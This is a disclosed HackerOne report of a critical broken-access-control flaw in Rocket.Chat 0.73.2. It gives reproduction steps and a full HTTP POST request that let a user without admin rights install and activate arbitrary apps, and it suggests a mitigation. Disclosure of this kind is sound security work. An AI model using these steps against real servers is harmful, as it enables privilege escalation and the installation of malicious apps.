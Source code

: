 # Broken access control on apps 

## Report Details
- **Report ID**: 491892
- **URL**: https://hackerone.com/reports/491892
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-02-06T11:51:30.342Z
- **Disclosed**: 2019-06-22T08:41:48.343Z

## Reporter
- **Username**: theappsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rocket_chat

## Vulnerability Information
**Summary:** 

The user without administrative privileges can upload and install any Application into the rocket.chat
As ID of application is controlled in the app.json file (which is controlled by uploader) user can also activate the app.

## Releases Affected:

  * 0.73.2

## Steps To Reproduce:
- User log-in into the chat
- User open the following link:

```
http://<rocket-chat.link>>/admin/app/install
```
- Upload any app
- Activate it by send the following POST request to the installed app:

```http
POST /api/apps/<ID_of_the_installed_App>/status HTTP/1.1
Host: rocket-chat.link
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-User-Id: [redacted]
X-Auth-Token: [redacted]
X-Requested-With: XMLHttpRequest
Cookie: [redacted]
DNT: 1
Connection: close
Content-Length: 29

{"status":"manually_enabled"}
```

## Supporting Material/References:

You can see the uploading process in the attached video. Left user is admin, right -  user without any additional privileges. 

## Suggested mitigation
Managing apps should be available to admins only.

## Impact

Users can install and activate malicious apps into the rocket.chat.

## Attachments
- rocket-upload-plugins-2019-02-06_13.06.45.mp4
